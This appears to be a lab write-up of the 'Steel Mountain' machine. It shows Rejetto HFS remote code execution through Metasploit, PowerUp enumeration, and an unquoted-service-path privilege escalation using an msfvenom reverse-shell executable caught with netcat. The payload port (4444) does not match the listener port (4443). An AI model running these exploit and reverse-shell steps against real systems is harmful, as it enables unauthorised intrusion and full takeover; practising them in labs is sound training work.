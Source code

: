 # Steel Mountain Writeup

## Let’s start

```shell
$ nmap -sV <machine-ip>

PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
8080/tcp  open  http               HttpFileServer httpd 2.3
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49161/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

Notice the `HttpFileServer` running on port `8080`. It’s version is `2.3`, can we exploit it?

```shell
kali@kali:~$ searchsploit "Http File Server"
------------------------------------------------------------------------------------------------------------------------------ 
 Exploit Title                                                                                                                |  Path
------------------------------------------------------------------------------------------------------------------------------ 
...
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                                                | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                           | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                           | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                                      | windows/
...
------------------------------------------------------------------------------------------------------------------------------ 
```

Seems like we have a vulnerable version on our hands! Let’s go for metasploit!

```shell
$ msfconsole
msf5 > search "HttpFileServer" 

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

msf5 > use 0
msf5 > info

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  HTTPDELAY  10               no        Seconds to wait before terminating web server
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      80               yes       The target port (TCP)
  SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT    8080             yes       The local port to listen on.
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       The path of the web application
  URIPATH                     no        The URI to use for this exploit (default is random)
  VHOST                       no        HTTP server virtual host

msf5 exploit(windows/http/rejetto_hfs_exec) > set rhosts 10.10.94.115
rhosts => 10.10.94.115
msf5 exploit(windows/http/rejetto_hfs_exec) > set rport 8080
rport => 8080
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit
[*] Started reverse TCP handler on 10.2.13.100:4444 
...
meterpreter >
```

Success!! Let’s explore!

```shell
meterpreter > cd C:/Users/bill/Desktop
meterpreter > cat user.txt
```

And we get the user flag. :) 

## Enumerating
To enumerate this machine, we will use a powershell script called PowerUp, that’s purpose is to evaluate a Windows machine and determine any abnormalities. PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations. You can download the script  [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) .
 Now you can use the upload command in Metasploit to upload the script.

```shell
kali@kali:~$ mkdir windows_scripts && cd windows_scripts
kali@kali:~$ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
--2020-06-20 13:21:21--  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
meterpreter > upload windows_scripts/PowerUp.ps1
``` 

To execute this using Meterpreter, I will type `load powershell` into meterpreter. Then I will enter powershell by entering `powershell_shell`.

```shell
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
[*] Running Invoke-AllChecks
...
```

Take close attention to the **CanRestart** option that is set to true. What is the name of the unquoted service path service name?
`AdvancedSystemCareService9`

The **CanRestart** option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program! Let’s use **msfvenom** to exploit this.

```shell
# In another tab in our comnputer
$ msfvenom -p windows/shell_reverse_tcp LHOST=<our-machine-ip> LPORT=4444 -e x86/shikata_ga_nai -f exe -o Advanced.exe

# Back to metasploit
meterpreter > cd C:/Program Files (x86)/IOBit
meterpreter > upload Advanced.exe
```

If you’ve gotten to this point and are somewhat confused about what Unquoted Service Paths are, that’s ok.  In a nutshell, USP are a misconfiguration in a directory’s path that contains spaces in which the path isn’t encapsulated in double quotations.  If the path to an executable is “quoted,” the path is specifically defined in the machine and not open to interpretation usually.  If the path is not quoted, then you can maliciously insert executables in to the “spaces.”  This  [link ](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae) provides a pretty good overview of what is going on to cause these vulnerabilities.  

From here we need to determine the locations within the service path that can be exploited.  We see that in this case we could try C:\Program Files (x86), and try to inject something named Program.exe, but we likely do not have permission to do so.  However we know that we have permission to modify the service as we have privileges to run it (StartName: LocalSystem).

Now that we know that we have privileges, and that we have a possible path to inject our malicious executable in to, we need to craft it.  We can use msfvenom to do this.  Keep note that the service path we are targeting is Advanced SystemCare, so we will need to name our malicious executable “Advanced.exe” as this is what the system will attempt to run first. 

Now let’s exploit it.

```shell
# In another bash tab
$ nc -nlvp 4443 # Port that will set with msfvenom

# In metasploit
meterpreter > shell
windows shell > sc stop AdvancedSystemCareService9
windows shell > sc start AdvancedSystemCareService9

# We should have a reverse shell on out netcat!
```
